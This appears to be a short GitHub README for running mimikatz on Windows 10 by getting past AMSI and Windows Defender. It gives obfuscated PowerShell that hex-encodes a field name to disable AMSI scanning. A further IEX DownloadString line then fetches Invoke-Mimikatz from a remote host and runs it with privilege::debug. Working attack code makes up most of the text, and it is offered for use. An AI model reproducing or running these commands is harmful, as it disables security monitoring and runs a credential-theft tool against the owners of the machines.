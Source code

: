 # note
Patch API AmsiScanBuffer so to bypass amsi 

The original mimikatz.ps1 can't run on win10,so I patch the original ps1,the link is : https://github.com/PowerShellMafia/PowerSploit/issues/320 

run powershell,then:

`$a =[Ref].Assembly.GetType('System.Management.Automation.AmsiUt'+'ils')`
`$h="4456625220575263174452554847"`
`$s =[string](0..13|%{[char][int](53+($h).substring(($_*2),2))})-replace " "`
`$b =$a.GetField($s,'NonPublic,Static')`
`$b.SetValue($null,$true)`

`IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/sharp-shooter/research/master/code/mimikatz/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command "privilege::debug coffee"`





Now It can bypass Windows Defender (2021--27)

[https://raw.githubusercontent.com/sharp-shooter/research/master/code/mimikatz/screenshot.png]()

